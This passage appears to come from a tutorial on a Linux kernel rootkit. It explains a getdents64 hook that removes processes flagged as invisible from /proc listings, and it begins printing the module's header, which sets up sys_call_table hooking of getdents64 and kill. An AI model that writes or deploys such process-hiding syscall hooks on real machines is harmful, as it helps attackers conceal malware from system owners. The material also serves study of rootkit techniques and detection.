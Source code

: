 ```c
		prev->d_reclen += dir->d_reclen;
	}
	else
	{
		prev = dir;
	}
	offset += dir->d_reclen;
}
```
The while loop goes through the _array of dirent_ returned by getdents64 (or, in this context orig_getdents64).\
It checks whether.
1. The directory entry within the _array of dirent_ is in `/proc/` directory
2. It is invisible

It then performs the changes to the `kdirent` then eventually to `dirent`, so that it can be passed to user space.

Whole Code (Test_hook_getdents64.h):
```c
#include <linux/syscalls.h>     /* Needed to use syscall functions */
#include <linux/slab.h>         /* kmalloc(), kfree(), kzalloc() */
#include <linux/sched.h>        /* task_struct: Core info about all the tasks */
#include <linux/fdtable.h>      /* Open file table structure: files_struct structure */
#include <linux/proc_ns.h>	/* For `PROC_ROOT_INO` */

#include <asm/ptrace.h>		/* For intercepting syscall, struct named pt_regs is needed */


// =============================================================================

#include <linux/dirent.h>	/* struct dirent refers to directory entry. */

struct linux_dirent {
	unsigned long   d_ino;		/* inode number */
	unsigned long   d_off;		/* offset to the next dirent */
	unsigned short  d_reclen;	/* length of this record */
	char            d_name[1];	/* filename */
};

#define PF_INVISIBLE 0x10000000

#define HIDE_UNHIDE_PROCESS 32

// ==================================================================================

/* For storing read cr0 control register value
 *
 * link: https://elixir.bootlin.com/linux/v5.11/source/arch/x86/include/asm/paravirt_types.h#L111
 *
 * unsigned long (*read_cr0)(void);
 */
unsigned long cr0;

// To store the address of the found sys_call_table
static unsigned long *__sys_call_table;

// Defining a function to store original syscalls
typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);

static tt_syscall orig_getdents64;
static tt_syscall orig_kill;


```